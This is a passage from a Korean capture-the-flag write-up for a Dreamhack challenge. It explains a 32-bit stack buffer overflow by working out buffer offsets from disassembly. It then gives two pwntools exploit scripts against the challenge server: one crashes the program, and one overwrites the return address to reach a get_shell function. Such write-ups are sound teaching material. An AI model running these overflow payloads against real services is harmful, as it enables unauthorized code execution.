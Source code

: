 따라서, `buf`의 크기에 해당하는 `256bytes`를 덮고, `ebp = sfp`의 크기에 해당하는 `4bytes`를 덮고, `return_address`를 존재하지 않는 값으로 덮기 위해 `b'aaaa'`를 전달해준다. (`b'a'`만 전달해서 `261bytes`만 전달해줘도 되긴 한다.)

<br>

### 참고

`32-bit` 시스템에서는 함수 호출 규약에서 인자를 `stack`으로 전달하기 때문에 `read`의 첫 번째 인자는 `0`, 두 번째 인자는 `buf`, 세 번째 인자는 `size - 1`임을 통해 아래와 같이 어셈블리 코드로도 `buf`가 `ebp - 0x100`에 존재한다는 것을 알 수 있다.

1. `size`가 `[ebp - 0x104]`에 저장되어 있기 때문에 `eax`에 옮기고 `sub`로 `-1`을 해준 후 `push eax`

2. `buf`가 `[ebp - 0x100]`에 저장되어 있기 때문에 `eax`에 옮기고 `push eax`

3. 첫 번째 인자인 `fd`는 `eax`를 `0`으로 만든 후 `push eax`

<img width="467" alt="image" src="https://github.com/user-attachments/assets/67e323d9-f184-472f-a13c-895b6b26d74f">

<br>

## Exploit 1. **BOF**를 통한 **Segfault** 발생 : **ex_bof.py**

```py
from pwn import *

p = remote('host3.dreamhack.games', 19837)

p.sendlineafter(b'Size: ', b'0')
p.sendafter(b'Data: ', b'a' * 264)

p.interactive()
```

<br>

## Exploit 2. **BOF**와 **RAO**를 통한 **get_shell** 실행

<img width="522" alt="image" src="https://github.com/user-attachments/assets/5af854a6-45d8-4b36-af98-415553ee6e80">

```py
from pwn import *

p = remote('host3.dreamhack.games', 23619)

p.sendlineafter(b'Size: ', b'0')

payload = b'a' * 260
payload += p32(0x8048659)

p.sendafter(b'Data: ', payload)

p.interactive()
```
